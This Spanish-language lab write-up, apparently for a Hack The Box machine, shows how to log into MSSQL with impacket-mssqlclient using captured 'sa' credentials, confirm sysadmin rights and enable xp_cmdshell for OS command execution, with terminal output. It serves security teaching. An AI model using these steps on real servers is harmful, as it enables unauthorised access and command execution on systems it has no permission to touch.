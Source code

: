 ## **Explotación de MSSQL (1433/tcp)**

Ya que conseguimos las credenciales de el servicio MSSQL procedemos a conectarnos usando el siguiente comando.

```bash
─(kali㉿kali)-[~]
└─$ impacket-mssqlclient sequel.htb/sa:'MSSQLP@ssw0rd!'@10.10.11.51
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)> 


```

#### **Primeras acciones tras la conexión**

En el prompt `SQL (sa dbo@master)>`, realizamos:

```bash
SQL (sa  dbo@master)> SELECT IS_SRVROLEMEMBER('sysadmin');
    
-   
1   

```

**Interpretación**: Confirmamos que el usuario `sa` tiene privilegios de administrador.

##### **Habilitación de `xp_cmdshell`**

######  **¿Qué es `xp_cmdshell`?**

Es un **procedimiento almacenado** en Microsoft SQL Server que permite ejecutar **comandos del sistema operativo (Windows)** directamente desde la consola de MSSQL. Funciona como un "puente" entre la base de datos y el sistema operativo subyacente.

**Paso 1:** Habilitar opciones avanzadas: 

```bash
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> RECONFIGURE;
```


Paso 2: **Habilitar `xp_cmdshell `**

 ```bash
 SQL (sa  dbo@master)> EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.


```
